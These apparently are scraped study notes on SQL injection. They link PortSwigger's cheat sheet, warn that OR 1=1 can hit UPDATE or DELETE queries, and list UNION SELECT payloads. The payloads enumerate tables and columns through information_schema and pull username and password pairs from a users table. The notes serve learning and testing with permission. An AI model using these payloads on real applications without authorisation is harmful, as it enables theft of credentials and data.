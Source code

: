<hr>

Conclusion
> While GET requests are more common for initial SQL injection testing due to their visibility in the URL, both GET and POST methods can be exploited. Understanding how each type works is crucial for identifying and mitigating SQL injection vulnerabilities. Always practice ethical testing and obtain permission before testing any application.

<hr>

WARNING
> Take care when injecting the condition OR 1=1 into a SQL query. Even if it appears to be harmless in the context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

<hr>

Cheatsheet from portswigger:
	https://portswigger.net/web-security/sql-injection/cheat-sheet

<hr>

> using information_schema.tables to check table_name:
>
>     UNION SELECT table_name FROM information_schema.tables

<hr>

> using information_schema.columns to check column_name:
>
>     UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'

<hr>

> get values in username column from the users table:
>
>     SELECT username FROM users

<hr>

> get values in multiple column (username, password) from the users table:
>
>     SELECT username, password FROM users

<hr>

> get values in multiple column (username, password) from the users table with filter that cannot return more than one column:
>
>     UNION SELECT username || password FROM users -> usernamepassword

<hr>

> to split column username and password with symbols might easier to visualize:
> 
> >     UNION SELECT username || ':' || password FROM users -> username:password
> 
> >     UNION SELECT username || '~' || password FROM users -> username~password
> 
> >     UNION SELECT username || '@' || password FROM users -> username@password
> 
> >     UNION SELECT username || '-' || password FROM users -> username-password
> 
> >     UNION SELECT username || '+' || password FROM users -> username+password
> 
> >     UNION SELECT username || ',' || password FROM users -> username,password
> 
> >     UNION SELECT username || ';' || password FROM users -> username;password
> 
> >     UNION SELECT username || '|' || password FROM users -> username|password